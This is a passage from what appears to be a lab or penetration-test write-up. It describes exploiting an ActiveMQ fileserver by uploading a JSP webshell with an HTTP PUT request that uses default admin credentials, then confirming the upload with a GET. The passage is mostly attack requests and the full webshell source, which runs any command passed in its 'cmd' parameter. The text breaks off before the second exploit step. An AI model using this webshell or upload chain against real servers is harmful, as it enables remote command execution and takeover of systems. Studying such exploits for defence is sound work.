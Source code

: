 We try and put the following jsp webshell,https://github.com/tennc/webshell/blob/master/jsp/test.jsp
```
PUT /fileserver/test.jsp HTTP/1.1
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 456

1234<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd); BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s +"\r\n"; } } catch(IOException e) { e.printStackTrace(); } } 
out.println(output);%>
```
We can then verify it was uploaded with a get request
```
GET /fileserver/test.jsp HTTP/1.1
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 456

1234<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd); BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s +"\r\n"; } } catch(IOException e) { e.printStackTrace(); } } 
out.println(output);%>
```
```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Type: text/html
Content-Length: 456
Last-Modified: Mon, 15 Mar 2021 00:03:43 GMT
Connection: close
Server: Jetty(7.6.9.v20130131)

1234<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd); BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s +"\r\n"; } } catch(IOException e) { e.printStackTrace(); } } 
out.println(output);%>
```
So it uploaded, but we can't execute it, this is where the second part of the exploit comes in to allows us to move the file to an actual absolute path through a leak we can view with the following